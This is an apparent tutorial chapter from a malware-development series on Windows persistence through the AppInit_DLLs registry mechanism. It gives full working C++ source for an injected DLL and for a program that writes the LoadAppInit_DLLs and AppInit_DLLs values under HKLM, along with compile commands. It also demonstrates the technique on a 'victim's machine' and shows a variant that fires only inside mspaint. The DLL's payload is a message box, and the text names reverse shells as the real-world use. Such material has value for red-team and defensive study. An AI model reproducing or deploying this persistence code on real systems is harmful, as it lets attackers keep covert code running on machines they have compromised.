



## 46. malware development: persistence - part 5. AppInit_DLLs. Simple C++ example.

{width="80%"}    

This section is a next part of a series of articles on windows malware persistence techniques and tricks.    

Today I'll wrote about the result of self-researching another persistence trick: AppInit_DLLs.

Windows operating systems have the functionality to allow nearly all application processes to load custom DLLs into their address space.
This allows for the possibility of persistence, as any DLL may be loaded and executed when application processes are created on the system.

### AppInit DLLs

Administrator level privileges are necessary to implement this trick. The following registry keys regulate the loading of DLLs via AppInit:

- `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows` - 32-bit     

- `HKEY_LOCAL_MACHINE\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows` - 64-bit    

We are interested in the following values:      

```powershell
reg query \
"HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /s
```

{width="80%"}    

And for `64-bit`:

```powershell
reg query \
"HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\
Windows" \
 /s
```

{width="80%"}    

Microsoft to protect Windows users from malware has disabled by default the loading of DLLs's via AppInit (`LoadAppInit_DLLs`). However, setting the registry key `LoadAppInit_DLLs` to value `1` will enable this feature.

### practical example

First of all, create "evil" DLL. As usual I will take "meow-meow" messagebox pop-up logic:    

```cpp
/*
evil.cpp
inject via Appinit_DLLs
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/16/malware-pers-5.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

extern "C" {
  __declspec(dllexport) BOOL WINAPI runMe(void) {
  MessageBoxA(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return TRUE;
  }
}

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    runMe();
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Let's go to compile it:

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

{width="80%"}    

Then simple logic: changing the registry key `AppInit_DLLs` to contain the path to the DLL, as a result, `evil.dll` will be loaded.

For this create another app `pers.cpp`:

```cpp
/*
pers.cpp
windows low level persistense via Appinit_DLLs
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/16/malware-pers-5.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious DLL
  const char* dll = "Z:\\2022-05-16-malware-pers-5\\evil.dll";
  // activation
  DWORD act = 1;

  // 32-bit and 64-bit
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Windows", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"LoadAppInit_DLLs", 
    0, REG_DWORD, (const BYTE*)&act, sizeof(act));
    RegSetValueEx(hkey, (LPCSTR)"AppInit_DLLs", 
    0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }

  res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Wow6432Node\\Microsoft\\Windows NT\\CurrentVersion\\
  Windows", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"LoadAppInit_DLLs", 
    0, REG_DWORD, (const BYTE*)&act, sizeof(act));
    RegSetValueEx(hkey, (LPCSTR)"AppInit_DLLs", 
    0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, setting the registry key `LoadAppInit_DLLs` to value `1` is also important.    

Let's go to compile it:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

### demo

Let's go to see everything in action! Drop all to victim's machine (`Windows 10 x64` in my case).

Then run as Administartor:

```powershell
.\pers.exe
```

and:

```powershell
reg query \
"HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" \
 /s
reg query \
"HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\
Windows" /s
```

just check.

{width="80%"}    

Then, for demonstration, open something like `Paint` or `Notepad`:

{width="80%"}    

{width="80%"}    

So, everything is worked perfectly :)

### second example:

However, this method's implementation may result in stability and performance difficulties on the target system:

{width="80%"}    

Furthermore, I think that the logic of the first DLL's is considered very odd since multiple message boxes popup, so when we act real-life action in red team scenarios: it's very noisy, for example for multiple reverse shell connections.

I tried updating little bit the logic of `evil.dll`:     

```cpp
/*
evil2.cpp
inject via Appinit_DLLs - only for `mspaint.exe`
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/16/malware-pers-5.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

char* subStr(char *str, char *substr) {
  while (*str) {
    char *Begin = str;
    char *pattern = substr;
    while (*str && *pattern && *str == *pattern) {
      str++;
      pattern++;
    }
    if (!*pattern)
  	  return Begin;

    str = Begin + 1;
  }
  return NULL;
}

extern "C" {
  __declspec(dllexport) BOOL WINAPI runMe(void) {
  MessageBoxA(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return TRUE;
  }
}

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  char path[MAX_PATH];
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    GetModuleFileName(NULL, path, MAX_PATH);
    if (subStr(path, (char *)"paint")) {
      runMe();
    }
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

As you can see, if the current process is `paint` (and is 32-bits) then, "inject" :)

{width="80%"}    

Perfect! :)

{width="80%"}    

For cleanup, after end of experiments:

```powershell
reg add \
"HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" \
/v LoadAppInit_DLLs /d 0
reg add \
"HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" \
/v AppInit_DLLs /t REG_SZ /f
```

{width="80%"}    

This technique is not new, but it is worth paying attention to it, in the wild, this trick was often used by groups such as [APT 39](https://attack.mitre.org/groups/G0087) and malwares as [Ramsay](https://attack.mitre.org/software/S0458/).

[MITRE ATT&CK: APPInit_DLLs](https://attack.mitre.org/techniques/T1546/010/)    
[APT39](https://attack.mitre.org/groups/G0087)    
[Ramsay](https://attack.mitre.org/software/S0458/)    
[source code in github](https://github.com/cocomelonc/2022-05-16-malware-pers-5)    
